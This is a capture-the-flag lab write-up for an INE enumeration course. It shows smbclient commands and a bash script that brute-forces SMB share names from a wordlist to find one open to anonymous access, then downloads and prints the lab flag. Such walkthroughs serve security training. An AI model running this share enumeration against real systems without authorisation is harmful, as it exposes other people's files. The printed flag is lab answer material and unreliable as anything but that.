

# SMB Enumeration: Anonymous Access

## Challenge Title
SMB Share with Anonymous Access

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Description

The goal of this challenge is to identify an SMB share that allows **anonymous access**, enumerate its contents, and retrieve a hidden flag.

---

## Tools Used

- `smbclient`: to query SMB shares
- Wordlist `shares.txt`
- `bash`: to script brute-force enumeration of share names
- `nano` / `chmod`: to edit and execute the script

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Initial Enumeration with `smbclient`

```bash
smbclient -L //target.ine.local -N
```


### 🔹 Step 2: Create Enumeration Script `shares.sh`

```bash
nano shares.sh
```
Paste the following script:
```bash
#!/bin/bash

# Define the target and wordlist location
TARGET="target.ine.local"
WORDLIST="/root/Desktop/wordlists/shares.txt"

# Check if the wordlist file exists
if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

# Loop through each share in the wordlist
while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```
> 📌 The `shares.sh` script used in this challenge is originally credited to [Prinugupta on Medium](https://prinugupta.medium.com/assessment-methodologies-enumeration-ctf-1-ejpt-ine-74461effd6a7).

Make it executable:
```bash
chmod +x shares.sh
```


### 🔹 Step 3: Run the Script
```bash
./shares.sh
```


Output:
You’ll see lots of denied messages until:
```css
[+] Anonymous access allowed for: pubfiles
```


That means pubfiles is accessible anonymously.

### 🔹 Step 4: Access the Share
```bash
smbclient //target.ine.local/pubfiles -N
```
List contents:
```bash
smb: \> ls
```
You’ll see something like:
flag1.txt

### 🔹 Step 5: Download the Flag
```bash
smb: \> get flag1.txt
```
Exit the session:
```bash
smb: \> exit
```


### 🔹 Step 6: View the Flag
```bash
cat flag1.txt
```
Final Output:
```bash
FLAG{56a55b23a464f5b8893fe22c6e3d611}
```


## Conclusion
This lab highlights the importance of checking for misconfigured Samba shares that allow anonymous access. Attackers can exploit this to discover sensitive files like backup data, credentials, or flags.

## Files Included
- `shares.sh`: The script used to enumerate shares
- `shares.txt`: Wordlist of possible SMB share names
- Screenshots: 1.png → 6.png (steps of the challenge)
